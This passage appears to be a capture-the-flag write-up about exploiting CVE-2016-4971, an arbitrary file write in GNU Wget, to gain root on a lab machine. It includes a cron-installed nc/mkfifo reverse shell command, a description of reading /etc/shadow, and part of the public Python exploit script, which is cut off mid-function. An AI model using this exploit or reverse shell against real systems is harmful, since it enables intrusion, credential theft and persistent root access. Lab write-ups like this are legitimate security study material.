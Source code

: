 Doing a searchsploit search for wget showed an arbitrary file upload / rce vulnerability.

![image](https://user-images.githubusercontent.com/10210108/82740039-0611f100-9d13-11ea-86df-f2d68d4b81d4.png)

> GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or compromised web server) can be tricked into saving an arbitrary remote file supplied by an attacker, with arbitrary contents and filename under the current directory and possibly other directories by writing to .wgetrc. Depending on the context in which wget is used, this can lead to remote code execution and even root privilege escalation if wget is run via a root cronjob. The full write-up can be found here: http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt

The POC works by listening on port 80 and responding with a 302 redirect that the target will follow to my box on port 21. At the root of the ftp server on my box is a .wget which instructs wget (via "post_file") on the next run to display the contents of a file, /etc/shadow in this case, and create a cron job (via "output_document").

I modified the script by setting the listen IP to 0.0.0.0 (all interfaces), set the ftp host to my tun0 IP address, and create a cron job that will call back to kotarak-dmz on port 3000.

```
HTTP_LISTEN_IP = "0.0.0.0"
FTP_HOST = '10.10.14.29'
ROOT_CRON = "* * * * * root /bin/sh rm /tmp/z;mkfifo /tmp/z;cat /tmp/z|/bin/sh -i 2>&1|nc 10.10.10.55 3000 >/tmp/z"
```

```
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
```